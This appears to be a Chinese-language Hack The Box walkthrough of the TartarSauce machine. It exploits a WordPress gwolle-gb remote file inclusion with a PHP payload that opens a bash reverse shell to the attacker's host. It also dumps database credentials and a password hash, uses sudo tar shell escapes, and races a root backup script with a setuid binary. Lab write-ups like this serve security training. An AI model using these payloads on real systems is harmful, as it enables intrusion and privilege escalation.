nmap

```bash
sudo nmap -T4 -p- -vv -sV 10.10.10.88
```

只开了80



扫描目录



10.10.10.88/webservices/wp/



可能是解析有问题，查看源码，发现域名`tartarsauce.htb`，cms是`WordPress 4.9.4`



添加hosts后解析正常



使用wpscan扫描一下漏洞（kali自带）

<https://github.com/wpscanteam/wpscan>

这里扫了很久，慢慢等把

```bash
wpscan --url http://10.10.10.88/webservices/wp --enumerate ap --detection-mode aggressive --plugins-detection aggressive --plugins-version-detection aggressive
```



存在插件`gwolle`



```bash
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
```

发现`gwolle` 存在远程文件包含RFI



<https://www.exploit-db.com/exploits/38861>



根据报告，只能远程文件包含`wp-load.php` 文件，这个只要重命名一下就可以了。

保存 wp-load.php，

```bash
<?php 
echo "hack!!!";
echo exec("bash -c 'bash -i >& /dev/tcp/10.10.16.8/2333 0>&1'");
?>
```

本地起http服务&#x20;

```bash
python2 -m SimpleHTTPServer 80
```

执行

```bash
curl 10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.8/
```

获得`www shell`



提权

查看端口服务

```bash
netstat -tunlp 
```



/var/www/html/webservices/wp/wp-config.php 发现mysql密码

```bash
w0rdpr3$$d@t@b@$3@cc3$$
```



wp-config.php

查看/etc/passwd，只有`root`和`onuma `有bash shell

尝试使用mysql密码登录`root`和`onuma`

```bash
$ su root
Password: w0rdpr3$$d@t@b@$3@cc3$$
su: Authentication failure
$ su onuma
Password: w0rdpr3$$d@t@b@$3@cc3$$
su: Authentication failure
$ 

```

密码错误！

登录mysql

```bash
$ mysql -uwpuser -p
Enter password: w0rdpr3$$d@t@b@$3@cc3$$

```

找到`wpadmin`密码，但是是加密的，没有破解成功

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wp                 |
+--------------------+
2 rows in set (0.00 sec)

mysql> use wp
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wp          |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_gwolle_gb_entries  |
| wp_gwolle_gb_log      |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
14 rows in set (0.00 sec)

mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       | wpadmin@test.local |          | 2018-02-09 20:49:26 |                     |           0 | wpadmin      |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)

mysql> 

```

sudo -l

tar命令拥有`onuma`用户权限



通过tar获得`onuma shell` 有两种方法，参考

<https://gtfobins.github.io/gtfobins/tar/#shell>

方法一

```bash
www-data@TartarSauce:/tmp$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
</null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash           
tar: Removing leading `/' from member names
id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)

```

方法二

```bash
www-data@TartarSauce:/tmp$ sudo -u onuma tar xf /dev/null -I '/bin/bash -c "sh <&2 1>&2"'
<sudo -u onuma tar xf /dev/null -I '/bin/bash -c "sh <&2 1>&2"'              
id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)

```

提权到root

使用`pspy32`监听程序，发现定时任务

`root `每5分钟左右执行`/usr/sbin/backuperer`



file分析`backuperer`是个shell脚本



/usr/sbin/backuperer

```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time. 删除/var/tmp/.* 隐藏文件和删除/var/tmp/check目录
/bin/rm -rf $tmpdir/.* $check 

# Backup onuma website dev files. 将/var/www/html压缩保存为一个隐藏文件到/var/tmp/
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added. 等待30秒
/bin/sleep 30

# Test the backup integrity #比较文件差异
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}
#创建/var/tmp/check目录
/bin/mkdir $check
#将/var/tmp/隐藏的压缩文件解压到/var/tmp/check目录
/bin/tar -zxvf $tmpfile -C $check


#比较解压的/var/tmp/check和当前/var/www/html的文件差异，
#将不同的文件列表写入/var/backups/onuma_backup_test.txt，
#如果相同，将/var/tmp/隐藏的压缩文件保存为/var/backups/onuma-www-dev.bak，并删除check目录
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi

```

整个脚本的执行：

```bash
1.onuma用户将web目录压缩备份，
2.30秒后由root用户解压到/var/tmp/check目录，检查一下web目录有没有改动，记录一下改动的文件。没有改动就保存压缩包到备份目录

```

利用思路：

```bash
由于我们现在是onuma，压缩的文件是保存到/var/tmp/
在/usr/sbin/backuperer执行压缩文件步骤的时候，在30秒内把压缩文件替换为包含exp脚本的压缩包，30秒后root解压被替换过的压缩包，root解压出来的exp脚本权限提升为root，然后onuma执行exp脚本即可提权到root
```

编译exp.c

```bash
#include <unistd.h>
int main(void) 
{ 
setregid(0,0); 
setreuid(0,0); 
execl("/bin/sh", "sh", 0); 
}
```

```bash
#编译
gcc -m32 exp.c -o exp
#添加suid位权限(第一位)，setuid: 设置使文件在执行阶段具有文件所有者的权限
chmod 7777 exp

#构造web目录
mkdir -p var/www/html
cp exp /var/www/html
#打包
tar -zcvf exp.tar.gz var
```

当`pspy32`监听到`/usr/sbin/backuperer`执行的时候，在30秒内快速删除掉`/var/tmp/.2aecc95...`的隐藏文件，并把打包好的`exp.tar.gz`下载并重命名到`/var/tmp/.2aecc95...`

```bash
wget 10.10.16.3/exp.tar.gz -O /var/tmp/.2aecc95...
```

等待一会root会把压缩包解压到`/var/tmp/check/`



提权成功


